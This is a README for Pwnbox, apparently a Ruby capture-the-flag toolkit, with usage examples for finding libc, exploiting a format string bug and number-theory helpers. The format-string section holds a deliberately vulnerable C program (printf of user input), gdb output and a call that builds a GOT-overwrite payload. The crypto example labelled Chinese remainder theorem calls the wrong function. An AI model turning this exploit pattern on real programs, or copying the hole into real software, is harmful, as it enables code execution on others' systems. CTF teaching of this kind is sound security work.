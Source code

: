 # Pwnbox

[![Build Status](https://travis-ci.org/jakkdu/pwnbox.svg?branch=master)](https://travis-ci.org/jakkdu/pwnbox)

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
puts "Path : #{libc.path}"
puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

### Cryptography
```ruby
# gives (gcd, x, y) where ax + by = gcd
Pwnbox::Crypto::exteded_gcd(a, b)

# gives root of ax = b mod m
Pwnbox::Crypto::solve_linear_congruence_equation(a, b, m)

# gives a modular inverse of a mod m
Pwnbox::Crypto::mod_inverse(a, m)

# gives root of x^2 = a mod p
Pwnbox::Crypto::mod_prime_sqrt(a, p)

# gives root of x^2 = a mod (p * q)
Pwnbox::Crypto::mod_composite_sqrt(a, p, q)

# gives the result of chinese remainder theorem
Pwnbox::Crypto::mod_composite_sqrt(remainders, mods)
```
